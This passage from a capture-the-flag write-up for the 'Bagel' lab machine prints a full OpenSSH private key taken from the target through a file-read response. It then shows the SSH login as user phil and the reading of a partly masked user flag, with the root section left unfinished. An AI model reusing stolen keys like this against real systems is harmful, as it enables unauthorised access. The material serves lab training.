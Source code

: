 ```
    "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAYEAuhIcD7KiWMN8eMlmhdKLDclnn0bXShuMjBYpL5qdhw8m1Re3Ud+2\ns8SIkkk0KmIYED3c7aSC8C74FmvSDxTtNOd3T/iePRZOBf5CW3gZapHh+mNOrSZk13F28N\ndZiev5vBubKayIfcG8QpkIPbfqwXhKR+qCsfqS//bAMtyHkNn3n9cg7ZrhufiYCkg9jBjO\nZL4+rw4UyWsONsTdvil6tlc41PXyETJat6dTHSHTKz+S7lL4wR/I+saVvj8KgoYtDCE1sV\nVftUZhkFImSL2ApxIv7tYmeJbombYff1SqjHAkdX9VKA0gM0zS7but3/klYq6g3l+NEZOC\nM0/I+30oaBoXCjvupMswiY/oV9UF7HNruDdo06hEu0ymAoGninXaph+ozjdY17PxNtqFfT\neYBgBoiRW7hnY3cZpv3dLqzQiEqHlsnx2ha/A8UhvLqYA6PfruLEMxJVoDpmvvn9yFWxU1\nYvkqYaIdirOtX/h25gvfTNvlzxuwNczjS7gGP4XDAAAFgA50jZ4OdI2eAAAAB3NzaC1yc2\nEAAAGBALoSHA+yoljDfHjJZoXSiw3JZ59G10objIwWKS+anYcPJtUXt1HftrPEiJJJNCpi\nGBA93O2kgvAu+BZr0g8U7TTnd0/4nj0WTgX+Qlt4GWqR4fpjTq0mZNdxdvDXWYnr+bwbmy\nmsiH3BvEKZCD236sF4SkfqgrH6kv/2wDLch5DZ95/XIO2a4bn4mApIPYwYzmS+Pq8OFMlr\nDjbE3b4perZXONT18hEyWrenUx0h0ys/ku5S+MEfyPrGlb4/CoKGLQwhNbFVX7VGYZBSJk\ni9gKcSL+7WJniW6Jm2H39UqoxwJHV/VSgNIDNM0u27rd/5JWKuoN5fjRGTgjNPyPt9KGga\nFwo77qTLMImP6FfVBexza7g3aNOoRLtMpgKBp4p12qYfqM43WNez8TbahX03mAYAaIkVu4\nZ2N3Gab93S6s0IhKh5bJ8doWvwPFIby6mAOj367ixDMSVaA6Zr75/chVsVNWL5KmGiHYqz\nrV/4duYL30zb5c8bsDXM40u4Bj+FwwAAAAMBAAEAAAGABzEAtDbmTvinykHgKgKfg6OuUx\nU+DL5C1WuA/QAWuz44maOmOmCjdZA1M+vmzbzU+NRMZtYJhlsNzAQLN2dKuIw56+xnnBrx\nzFMSTw5IBcPoEFWxzvaqs4OFD/QGM0CBDKY1WYLpXGyfXv/ZkXmpLLbsHAgpD2ZV6ovwy9\n1L971xdGaLx3e3VBtb5q3VXyFs4UF4N71kXmuoBzG6OImluf+vI/tgCXv38uXhcK66odgQ\nPn6CTk0VsD5oLVUYjfZ0ipmfIb1rCXL410V7H1DNeUJeg4hFjzxQnRUiWb2Wmwjx5efeOR\nO1eDvHML3/X4WivARfd7XMZZyfB3JNJbynVRZPr/DEJ/owKRDSjbzem81TiO4Zh06OiiqS\n+itCwDdFq4RvAF+YlK9Mmit3/QbMVTsL7GodRAvRzsf1dFB+Ot+tNMU73Uy1hzIi06J57P\nWRATokDV/Ta7gYeuGJfjdb5cu61oTKbXdUV9WtyBhk1IjJ9l0Bit/mQyTRmJ5KH+CtAAAA\nwFpnmvzlvR+gubfmAhybWapfAn5+3yTDjcLSMdYmTcjoBOgC4lsgGYGd7GsuIMgowwrGDJ\nvE1yAS1vCest9D51grY4uLtjJ65KQ249fwbsOMJKZ8xppWE3jPxBWmHHUok8VXx2jL0B6n\nxQWmaLh5egc0gyZQhOmhO/5g/WwzTpLcfD093V6eMevWDCirXrsQqyIenEA1WN1Dcn+V7r\nDyLjljQtfPG6wXinfmb18qP3e9NT9MR8SKgl/sRiEf8f19CAAAAMEA/8ZJy69MY0fvLDHT\nWhI0LFnIVoBab3r3Ys5o4RzacsHPvVeUuwJwqCT/IpIp7pVxWwS5mXiFFVtiwjeHqpsNZK\nEU1QTQZ5ydok7yi57xYLxsprUcrH1a4/x4KjD1Y9ijCM24DknenyjrB0l2DsKbBBUT42Rb\nzHYDsq2CatGezy1fx4EGFoBQ5nEl7LNcdGBhqnssQsmtB/Bsx94LCZQcsIBkIHXB8fraNm\niOExHKnkuSVqEBwWi5A2UPft+avpJfAAAAwQC6PBf90h7mG/zECXFPQVIPj1uKrwRb6V9g\nGDCXgqXxMqTaZd348xEnKLkUnOrFbk3RzDBcw49GXaQlPPSM4z05AMJzixi0xO25XO/Zp2\niH8ESvo55GCvDQXTH6if7dSVHtmf5MSbM5YqlXw2BlL/yqT+DmBsuADQYU19aO9LWUIhJj\neHolE3PVPNAeZe4zIfjaN9Gcu4NWgA6YS5jpVUE2UyyWIKPrBJcmNDCGzY7EqthzQzWr4K\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----",                       
    "WriteFile": null                                                                                               
  },                                                                                                                
  "WriteOrder": null,                                                                                               
  "ReadOrder": null                                                                                                 
}  
```

## User Flag

By cleaning up the previously found OpenSSH key (e.g., fixing `\n` line breaks and setting sufficent protections on the file through `chmod 600 phil_id_rsa`), one can finally log in as `phil` and retrieve the user flag:

```
└─$ ssh phil@bagel.htb -i phil_id_rsa

[phil@bagel ~]$ whoami
phil
[phil@bagel ~]$ ls 
user.txt
[phil@bagel ~]$ cat user.txt 
4decd*******************6de76e
[phil@bagel ~]$ 
```

## Root Flag

TBD
